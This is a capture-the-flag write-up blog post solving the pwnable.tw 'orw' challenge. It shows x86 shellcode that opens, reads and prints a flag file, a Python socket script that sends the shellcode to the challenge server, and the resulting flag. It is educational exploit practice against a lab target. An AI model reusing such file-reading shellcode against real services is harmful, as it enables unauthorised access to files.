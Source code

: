 ```yaml
---
layout: post
title: Binary hacking challenge  
---
```


Binary hacking involves exploiting the subtle vulnerabilities in a binary program in order to get it to perform unintended actions. There are many sites online where you can practice binary hacking. One such site I came across was [www.pwnable.tw](pwnable).

I attempted the orw challenge which is pretty straight forward and requires you to open,read and write the contents of `/home/orw/flag` to STDOUT.
You can use the `nc` utility on Linux to connect pwnble server. It connects to a binary with STDIN to input the assembly code which will reveal the contents of the flag.
Here the system requires Intel x86 assembly instructions.

```
 xor  eax, eax	; clear eax
 mov  al, 5		; set eax=5 for 'open' syscall
 xor  ecx, ecx	; clear ecx. Opens file in read only mode
 xor  edx, edx	; clear edx
 push ecx		; push '\0' on the stack
 push 0x67616c66	; push 'galf' on the stack
 push 0x2f77726f	; push '/wro' on the stack
 push 0x2f656d6f	; push '/eom' on the stack
 push 0x682f2f2f	; push 'h///' on the stack
 mov  ebx, esp		; mov esp into ebx
 int  0x80			; invoke syscall
 mov  ebx, eax		; move eax to ebx. eax contains the file descriptor
 mov  ecx, esp		; move esp to ecx. contents of file will be read on to the stack
 xor  edx, edx		; clear edx 
 mov  dl, 0x30		; set edx=48. read up to 48 characters.
 mov  al, 3			; set eax=3 fo read syscall.
 int  0x80			; invoke syscall 
 mov  ebx, 1		; set ebx=1. Sets STDOUT as file descriptor for write call.
 mov  al, 4			; set eax=4 for write syscall
 int  0x80			; invoke syscall
```
An online assembly tool can be used to obtain the hex code representation. [ Shell Storm ](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)

A simple python script is used to communicate with the challenge server.
```python
import socket

sck = socket.create_connection(('chall.pwnable.tw', 10001))
_ = sck.recv(4096)
print(_)

shellcode="\x31\xc0\xb0\x05\x31\xc9\x31\xd2\x51\x68\x66\x6c\x61\x67\x68\x6f\x72\x77\x2f\x68\x6f\x6d\x65\x2f\x68\x2f\x2f\x2f\x68\x89\xe3\xcd\x80\x89\xc3\x89\xe1\x31\xd2\xb2\x30\xb0\x03\xcd\x80\xbb\x01\x00\x00\x00\xb0\x04\xcd\x80"
sck.send(shellcode)

print('length',len(shellcode))
res=sck.recv(1024)
print(res)
```

The output contains the flag as follows
```
Give my your shellcode:
('length', 54)
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
```
In summary the binary opens an STDIN which can be used to inject assembly code. The assembly code performs the open,read and write syscalls.